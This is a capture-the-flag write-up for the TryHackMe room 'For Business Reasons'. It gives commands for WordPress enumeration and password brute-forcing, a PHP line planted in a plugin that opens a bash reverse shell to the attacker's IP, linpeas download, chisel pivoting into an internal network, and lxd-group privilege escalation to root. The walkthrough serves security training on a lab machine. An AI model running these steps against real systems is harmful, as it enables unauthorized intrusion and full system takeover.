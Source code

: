 # Write up for 'For buisness reason' on <a href='https://tryhackme.com/room/forbusinessreasons'>TryHackMe</a>

### FLAG0

We start with nmap scan
##### nmap -sC -sV -v {MACHINE IP}

<br></br><img src='./img/Screenshot (117).png' /><br></br>

We can see that ssh port is closed which means that it is not accessible to us.
So let's visit the webpage on port 80. We can see that it is a wordpress website. Running wpscan on the website gives something interesting
##### wpscan --utl http://{MACHINE IP} -e vp,vt,dbe,u

We get the username **sysadmin**, we can also see that xmlrpc.php is available to us. We can use that to bruteforce creds for **sysadmin** user. (Read more about xmlrpc.php [here](https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32))

We can bruteforce the creds with wpscan
##### wpscan --url http://{MACHINE IP} -P {path to rockyou.txt} -U 'sysadmin'

This will give you the creds for user and you can login with those creds into the wordpress website,

Now we need to get a reverse shell. Let's go to plugin editor.
Change the plugin to **Hello dolly** and press **select**
<br></br><img src='./img/Screenshot (119).png' /><br></br>

Now scroll to the bottom and place the this code at the bottom
`exec('/bin/bash -c "bash -i >& /dev/tcp/{YOUR VPN IP}/4444 0>&1"');`
and update the file.

Go back to installed plugins and activate the plugin.
<br></br><img src='./img/Screenshot (120).png' /><br></br>
and we will get back a shell.

Now you can find the first flag in **/var/www/html**

### FLAG1
Bumping around the machine didn't really give anything back useful, so I got the linpeas.sh on the machine with curl since the machine did not have wget.
#### curl http://{MACHINE IP}:8000/linpeas.sh -O linpeas.sh
Download the linpeas.sh in /tmp and make it executable with `chmod +x linpeas.sh`.

In the scan we can see that there are different networks
<br></br><img src='./img/Screenshot (122).png' /><br></br>
We scan for ips that are up and running with the help of nmap, download the binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
. After downloading move the binary to target machine with curl and run the following command to scan for IPs
##### ./nmap -sn 172.18.0.1/24 10.0.0.5/24
This will give us a list of IPs that are up
* 172.18.0.1
* 172.18.0.2
* 172.18.0.3
* 172.18.0.4
* 10.0.0.1
* 10.0.0.2
* 10.0.0.3
* 10.0.0.4
* 10.0.0.5
* 10.0.0.6


We can scan the IPs for open port with nc, download the binary [here](https://github.com/yunchih/static-binaries/blob/master/nc).
Run this command to look for ports
##### ./nc -zv {IP} {PORTS}

Scan ips for common ports. We can see that only 172.18.0.1 has port 22 open. We can also see that ssh is not available for the reverse shell. So now we will use chisel, download he binary [here](https://github.com/jpillora/chisel/releases/tag/v1.7.6). Download the .gzip file and extract it to get the binary.
We will use chisel for port forwarding, read more about it [here](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

On the attacking machine i.e your own machine, run the following command
##### ./chisel server -p 8000 --reverse -v

Move chisel binary to the target machine and run the following command
#### ./chisel client {YOUR VPN IP}:8000 R:127.0.0.1:8001:172.18.0.1:22

This will forward the ssh of the intranet IP to us on our localhost at port 8001,
Now we can use ssh with the password that we earlier bruteforced
##### ssh sysadmin@127.0.0.1 -p 8001

Enter the password and we get the shell as sysadmin

### FLAG2

Now that we have the user, we can try for root.
Running `id` command tells us that we are part of the lxd group and by running `lxc image list` we can list the images. We can use the `lxd privesc` to get the root.
Read about the privesc [here](https://www.hackingarticles.in/lxd-privilege-escalation/)

Run the following commands on your own machine i.e youe attacking machine
##### git clone  https://github.com/saghul/lxd-alpine-builder.git
##### cd lxd-alpine-builder
##### ./build-alpine
*NOTE: If you face any problem with build-alpine then you can look for a solution [here](https://github.com/saghul/lxd-alpine-builder/issues/1)*

Once you get the `.tar.gz` file, move that file to the target machine with curl.

On the target machine run the following set of commands in the same directory as the `tar.gz` (not necessary though, you can specify the path in the commands too)

##### lxc image import ./alpine-v3.13-x86_64-20210311_0157.tar.gz --alias myimage
##### lxc image list {to check if our image is created of not}
##### lxc init myimage ignite -c security.privileged=true
##### lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
##### lxc start ignite
##### lxc exec ignite /bin/sh

We get the shell as roo and you can get the flag with `cat /mnt/root/root/root.txt`
